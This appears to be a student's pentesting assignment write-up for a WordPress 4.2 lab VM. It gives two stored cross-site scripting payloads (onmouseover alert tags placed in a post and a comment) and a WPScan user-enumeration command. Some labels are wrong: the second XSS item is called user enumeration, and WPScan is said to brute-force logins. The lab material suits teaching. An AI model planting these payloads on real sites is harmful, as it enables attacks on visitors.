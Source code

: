 # Assignment 7-Pentesting
1. Wordpress: XSS(Authenticated)
   - Summary
      - Vulnerability type: Authenticated Cross site scripting
      - WP version: 4.2
      - HTML line: <a href="[caption code="]></a><a title=" onmouseover=alert('xss testing') ">title=" onmouseover=alert('xss testing')>link</a>
      - Steps: 
           - Wrote the above html code to post a link in a page with admin privilege
           - Saved it and the link is posted on the admin's page
           - Admin hovers on the link posted and the exploit is triggered
   - Gif walkthrough
         
 ![alt-text](xss.gif)
 
 2. Wordpress: XSS(unauthorized)
    - Summary
         - Vulnerability type: user enumeration
         - WP version: 4.2
         - HTML line: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px></a>
         - Steps: 
             - Wrote the above html code in comment for a post
             - A user views the comment and hovers on the link, the exploit is soon triggered
           
 ![alt-text](xss(unauthorized).gif)
 
 3. Kali WPscan
    - Summary
       - Vulnerability type: User Enumeration
       - Kali command: wpscan --url http://wpdistillery.vm --enumerate u
       - The above command on kali will brite force the user login information
       
 ![alt-text](user_enumeration.gif)
